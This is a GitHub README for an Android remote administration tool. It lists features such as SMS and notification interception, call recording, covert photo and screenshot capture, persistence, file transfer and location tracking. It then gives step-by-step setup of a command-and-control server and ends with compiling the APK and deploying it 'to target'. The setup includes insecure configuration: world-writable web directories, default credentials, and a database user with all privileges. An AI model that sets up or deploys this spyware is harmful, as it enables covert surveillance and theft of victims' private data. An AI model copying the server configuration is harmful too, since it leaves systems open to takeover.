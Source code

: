 ## Moukthar
Remote adminitration tool for android

### Features
- Notifications listener
- SMS listener
- Phone call recording
- Image capturing and screenshots
- Persistence 
- Read & write contacts
- List installed applications
- Download & upload files
- Get device location

### Installation
- Clone repository
  ```console
  git clone https://github.com/Tomiwa-Ot/moukthar.git
  ```
- Install php, composer, mysql, php-mysql driver, apache2 and a2enmod
- Move server files to ```/var/www/html/``` and install dependencies
  ```console
  mv moukthar/Server/* /var/www/html/
  cd /var/www/html/c2-server
  composer install
  cd /var/www/html/web-ocket/
  composer install
  cd /var/www
  chown -R www-data:www-data .
  chmod -R 777 .
  ```
  The default credentials are username: ```android``` and password: ```the rastafarian in you```
- Create new sql user
  ```mysql
  CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
  GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
  FLUSH PRIVILEGES;
  ```
- Set database credentials in ```c2-server/.env``` and ```web-socket/.env```
- Execute ```database.sql```
- Start web socket server or deploy as service in linux
  ```console
  php Server/web-socket/App.php
  # OR
  sudo mv Server/websocket.service /etc/systemd/system/
  sudo systemctl daemon-reload
  sudo systemctl enable websocket.service
  sudo systemctl start websocket.service
  ```
- Modify ```/etc/apache2/sites-available/000-default.conf```
  ```console
  <VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html/c2-server
        DirectoryIndex app.php
        Options -Indexes

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
  </VirtualHost>

  ```
- Modify ```/etc/apache2/apache2.conf```
  ```xml
    Comment this section
    #<Directory />
    #       Options FollowSymLinks
    #       AllowOverride None
    #       Require all denied
    #</Directory>

   Add this
    <Directory /var/www/html/c2-server>
        Options -Indexes
        DirectoryIndex app.php
        AllowOverride All
        Require all granted
    </Directory>
  ```
- Increase php file upload max size ```/etc/php/*.*/apache2/php.ini```
  ```ini
  ; Increase size to permit large file uploads from client
  upload_max_filesize = 128M
  ; Set post_max_size to upload_max_filesize + 1
  post_max_size = 129M
  ```
- Set web socket server address in <script> tag in ```c2-server/src/View/home.php```
  ```console
  const ws = new WebSocket('ws://IP_ADDRESS:8080');
  ```
- Restart apache using the command below
  ```console
  sudo a2enmod rewrite && sudo service apache2 restart
  ```
- Set C2 server and web socket server address in client ```functionality/Utils.java```
  ```java
  public static final String C2_SERVER = "http://localhost";

  public static final String WEB_SOCKET_SERVER = "ws://localhost:8080";
  ```
- Compile APK using Android Studio and deploy to target

### Screenshots
![Dashboard](screenshots/c2.png)

### TODO
- Auto scroll logs on dashboard
- Image, video and screenshot
- List files
